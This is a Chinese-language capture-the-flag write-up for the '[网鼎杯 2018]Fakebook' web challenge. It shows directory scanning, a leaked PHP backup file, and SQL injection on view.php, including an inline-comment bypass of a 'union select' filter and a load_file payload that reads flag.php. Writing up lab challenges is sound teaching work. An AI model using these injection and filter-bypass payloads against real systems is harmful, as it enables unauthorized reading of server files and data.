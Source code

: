 # [网鼎杯 2018]Fakebook

1. 目录扫描

   - robots.txt
   - flag.php

   打开 robots.txt 发现 user.php.bak

![image-20211022111059709](https://i.loli.net/2021/10/22/mClExzbcfnrWNjA.png)

下载 /user.php.bak 得到：

```php
<?php


class UserInfo
{
    public $name = "";
    public $age = 0;
    public $blog = "";

    public function __construct($name, $age, $blog)
    {
        $this->name = $name;
        $this->age = (int)$age;
        $this->blog = $blog;
    }

    function get($url)
    {
        $ch = curl_init();

        curl_setopt($ch, CURLOPT_URL, $url);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
        $output = curl_exec($ch);
        $httpCode = curl_getinfo($ch, CURLINFO_HTTP_CODE);
        if($httpCode == 404) {
            return 404;
        }
        curl_close($ch);

        return $output;
    }

    public function getBlogContents ()
    {
        return $this->get($this->blog);
    }

    public function isValidBlog ()
    {
        $blog = $this->blog;
        return preg_match("/^(((http(s?))\:\/\/)?)([0-9a-zA-Z\-]+\.)+[a-zA-Z]{2,6}(\:[0-9]+)?(\/\S*)?$/i", $blog);
    }

}
```



2. 随便添加一个账号

![image-20211020202149740](https://i.loli.net/2021/10/20/kQG9JSLvrKxXwF4.png)



3. 点击用户名跳转

跳转地址：/view.php?no=1

改为：/view.php?no=0

报错如下：

![image-20211020202118864](https://i.loli.net/2021/10/20/mzu7HpvDCJ4wgQO.png)



4. 尝试注入

加单引号报错，爆出网站觉得路径

![image-20211022141423808](https://i.loli.net/2021/10/22/u7HqFTvl56nZxB3.png)



构造闭合

```html
/view.php?no=1 and 1
```



判断读写权限

![image-20211022141142849](https://i.loli.net/2021/10/22/Jamz8ACo1fnRBul.png)



5. 直接读取 flag.php

过滤 `union select`加内联注释绕过 `union/**/select`

```sql
/view.php?no=-1 union/**/select 1,load_file('/var/www/html/flag.php'),3,4
```

![image-20211022141800290](https://i.loli.net/2021/10/22/oK19eamCkFrILTE.png)



Get Flag！
